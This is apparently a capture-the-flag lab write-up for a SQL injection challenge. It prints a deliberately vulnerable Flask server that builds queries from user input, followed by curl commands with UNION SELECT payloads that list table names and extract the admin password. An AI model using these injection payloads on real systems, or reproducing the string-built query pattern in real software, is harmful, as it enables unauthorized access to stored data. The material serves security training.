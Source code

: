 # SQLi 4

```cat /challenge/server```

```
hacker@web-security~sqli-4:~$ cat /challenge/server
#!/usr/bin/exec-suid -- /usr/bin/python3 -I

import random
import flask
import os

app = flask.Flask(__name__)


import sqlite3
import tempfile


class TemporaryDB:
    def __init__(self):
        self.db_file = tempfile.NamedTemporaryFile("x", suffix=".db")

    def execute(self, sql, parameters=()):
        connection = sqlite3.connect(self.db_file.name)
        connection.row_factory = sqlite3.Row
        cursor = connection.cursor()
        result = cursor.execute(sql, parameters)
        connection.commit()
        return result


db = TemporaryDB()

random_user_table = f"users_{random.randrange(2**32, 2**33)}"
db.execute(f"""CREATE TABLE {random_user_table} AS SELECT "admin" AS username, ? as password""", [open("/flag").read()])
# https://www.sqlite.org/lang_insert.html
db.execute(f"""INSERT INTO {random_user_table} SELECT "guest" as username, "password" as password""")


@app.route("/", methods=["GET"])
def challenge():
    query = flask.request.args.get("query", "%")

    try:
        # https://www.sqlite.org/schematab.html
        # https://www.sqlite.org/lang_select.html
        sql = f'SELECT username FROM {random_user_table} WHERE username LIKE "{query}"'
        print(f"DEBUG: {query=}")
        results = "\n".join(user["username"] for user in db.execute(sql).fetchall())
    except sqlite3.Error as e:
        results = f"SQL error: {e}"

    return f"""
        <html><body>Welcome to the user query service!
        <form>Query:<input type=text name=query value='{query}'><input type=submit value=Submit></form>
        <hr>
        <b>Query:</b> <pre>{ sql.replace(random_user_table, "REDACTED") }</pre><br>
        <b>Results:</b><pre>{results}</pre>
        </body></html>
        """


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
hacker@web-security~sqli-4:~$
```
<br>

### Since the name of the table needed to inject is unknown, first step is finding the table names and getting the right one.


```
curl -v "http://challenge.localhost:80/?query=%22UNION%20SELECT%20name%20FROM%20sqlite_master%20WHERE%20type=%22table"
```

<br>

### In the results just one table was returned, so this is obviously it.


```
<html><body>Welcome to the user query service!
        <form>Query:<input type=text name=query value='"UNION SELECT name FROM sqlite_master WHERE type="table'><input type=submit value=Submit></form>
        <hr>
        <b>Query:</b> <pre>SELECT username FROM REDACTED WHERE username LIKE ""UNION SELECT name FROM sqlite_master WHERE type="table"</pre><br>
        <b>Results:</b><pre>users_4728253993</pre>
        </body></html>
* shutting down connection #0
```

<br>

### Craft the UNION SELECT request with the table name:


```
curl -v "http://challenge.localhost:80/?query=%22UNION%20SELECT%20password%20FROM%20user
s_4728253993%20WHERE%20username=%22admin"
```
